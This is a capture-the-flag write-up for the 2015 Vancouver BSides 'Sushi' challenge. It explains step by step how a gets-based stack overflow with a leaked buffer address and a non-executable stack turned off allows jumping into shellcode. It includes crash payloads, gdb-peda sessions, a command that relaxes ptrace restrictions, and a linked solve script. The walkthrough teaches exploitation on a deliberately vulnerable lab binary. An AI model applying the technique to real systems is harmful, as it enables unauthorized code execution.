

# Vancouver BSides CTF 2015: Sushi

**Category:** Ownable
**Points:** 100
**Solves:** 101
**Description:** 

> sushi.termsec.net 4000
> 
> Sushi is great in Vancouver. It's cheap, it's delicious, and it's everywhere.
> 
> Read flag.txt
> 
> [sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8](sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8)

## Write-up

This writeup is based on following writeups:

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>

### Meta

Keywords:

* Stack Overflow in `gets`

We are given a stripped x86-64 bit for Linux:

```bash
$ file sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8: ELF 64-bit LSB  executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=ecf8d3deb9274a9ce4ab4532469a1f3027534d92, stripped
```

Running it:

```bash
$ ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fff53177780
100
Sorry, $0.49 is not enough.
```

`checksec` tells us that no security is enabled:

```bash
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

Since `NX` is disabled, we might be able to push shellcode to the stack using a stack overflow and execute it.
However, we might have to deal with ASLR.

Decompiling the binary's `main` using `radare2`:



Since the binary is stripped, we don't see any other functions that might be of interest:

```bash
[0x004004a0]> aa
[0x004004a0]> afl | sort -k1 | column -t
0x00400450  16  2  sym.imp.printf
0x00400460  16  2  sym.imp.__libc_start_main
0x00400480  16  2  sym.imp.gets
0x00400490  16  2  sym.imp.fflush
0x004004a0  42  1  entry0
0x00400596  93  1  main
```

Having the [64-bit C calling convention order](http://stackoverflow.com/a/4266083) in mind, the code becomes pretty straightforward:

```C
&buf = rbp-0x40;
printf("Deposit money for sushi here: %p\n",buf);
fflush(0); // 0 == stdin
buf = gets(buf);
printf("", "Sorry, $0.%d is not enough.\n", buf[0]);
fflush(0);
```

This tells us two things:

* The address to our input buffer is leaked, rendering ASLR irrelevant
* Since `gets` is used without any preceding input length check, we can smash the stack and overwrite the return instruction pointer RIP to point to our shellcode

We test our hypothesis:

* Set `ulimit -c unlimited` to create core dumps after a segementation fault. [Source](http://stackoverflow.com/questions/2919378/how-to-enable-core-dump-in-my-linux-c-program) and [here](https://wiki.archlinux.org/index.php/Core_dump)
* `echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope` - Didn't work without - used it to make gdb attach work [Source](http://askubuntu.com/questions/41629/after-upgrade-gdb-wont-attach-to-process)
* Overflow the buffer, generating a core dump:
```bash
$ python -c 'print "A"*0x40+"ARBPARBP"+"BBBBCCCC"' | ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8                                           
Deposit money for sushi here: 0x7fff11e90620
Sorry, $0.65 is not enough.
Segmentation fault (core dumped)
$ ls
core  peda-session-sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8.txt  sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8
$ file core
core: ELF 64-bit LSB  core file x86-64, version 1 (SYSV), SVR4-style, from './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```
* Analyse it using gdb: `gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core`:
```bash
$ gdb -q ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 core

Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.

warning: core file may not match specified executable file.
[New LWP 2468]
Core was generated by `./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00000000004005f2 in ?? ()
gdb-peda$ x/i $rip
=> 0x4005f2:    ret    
gdb-peda$ x/2wx $rsp
0x7fff11e90668: 0x42424242      0x43434343
```

We see that a Segmentation fault happened at the `ret` instruction of our main function. `rsp` points at the next address that `rip` has to jump to, which is (64 bit == 8 bytes address) `0x4242424243434343` (Hope I got the order right).

You can also just load the binary in `gdb-peda`, run it, provide it with the payload string `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC` and see the status of our stack at the end of the main function (last 2 instructions):

```bash
$ gdb ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Reading symbols from ./sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8...(no debugging symbols found)...done.
gdb-peda$ b *0x004005f1
Breakpoint 1 at 0x4005f1
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/bsides/sushi/sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8 
Deposit money for sushi here: 0x7fffffffe390
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARBPARBPBBBBCCCC
Sorry, $0.65 is not enough.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
[...]
RBP: 0x7fffffffe3d0 ("ARBPARBPBBBBCCCC")
RSP: 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
RIP: 0x4005f1 (leave)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e2:    mov    edi,0x0
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
=> 0x4005f1:    leave  
   0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
[...]
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe390 ('A' <repeats 65 times>, "RBPARBPBBBBCCCC")
[...]
gdb-peda$ x/20wx $rbp
0x7fffffffe3d0: 0x50425241      0x50425241      0x42424242      0x43434343
[...]
gdb-peda$ ni
[...]
RBP: 0x5042524150425241 ('ARBPARBP')
RSP: 0x7fffffffe3d8 ("BBBBCCCC")
RIP: 0x4005f2 (ret)
[...]
[-------------------------------------code-------------------------------------]
   0x4005e7:    call   0x400490 <fflush@plt>
   0x4005ec:    mov    eax,0x0
   0x4005f1:    leave  
=> 0x4005f2:    ret    
   0x4005f3:    nop    WORD PTR cs:[rax+rax*1+0x0]
   0x4005fd:    nop    DWORD PTR [rax]
   0x400600:    push   r15
   0x400602:    mov    r15d,edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe3d8 ("BBBBCCCC")
gdb-peda$ ni
[...]
Stopped reason: SIGSEGV
```

You'll see that `leave` is correspondent to "Move saved `rbp` to `rsp`", meaning `mov rsp, [rbp+8]` and `ret` is correspondent to `pop rip`.

All that's left to do now is find a shellcode that fits for `gets` (function is null byte `\x00` friendly), which is smaller than `0x48`==`72` bytes and set RIP to our input buffer address, leaked by the program itself!

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Started program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
[*] Switching to interactive mode
Sorry, $0.49 is not enough.
$ cat flag.txt
flag{I_l3ft_my_wallet_in_#irc}
[*] Stopped program './sushi-a6cbcb6858835fbc6d0b397d50541198cb4f98c8'
```


## Other write-ups and resources

* <https://github.com/yvrctf/2015/tree/master/sushi>
* <https://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/> (down) ([cached](https://web.archive.org/web/20150625064545/http://rotlogix.com/2015/03/18/vancouver-bsides-ctf-sushi/)) or <http://www.tuicool.com/articles/uieaeaq>
* <http://capturetheswag.blogspot.com.au/2015/03/vancouver-bsides-2015-sushi-pwnable.html>
* <https://ctf-team.vulnhub.com/bsides-vancouver-2015-sushi/> or <http://barrebas.github.io/blog/2015/03/18/bsides-vancouver-ctf-sushi/>
* <https://akshayswebspace.wordpress.com/tag/writeup/>
* [Japanese](http://mage-ctf-writeup.blogspot.jp/2015/03/b-sides-vancouver-2015.html)
* [Japanese 2](http://charo-it.hatenablog.jp/entry/2015/03/18/234404)
* [Korean?](http://revers3r.tistory.com/27)
* [Korean](http://s0ngsari.tistory.com/entry/yvrctfPwnable-100)
* <http://captf.com/2015/bsides-vancouver/ownable/sushi-psifertex-solve.py>
* <https://gist.github.com/emyei/248ccf0aa4b773aa17a7>
* <http://smleenull.tistory.com/521>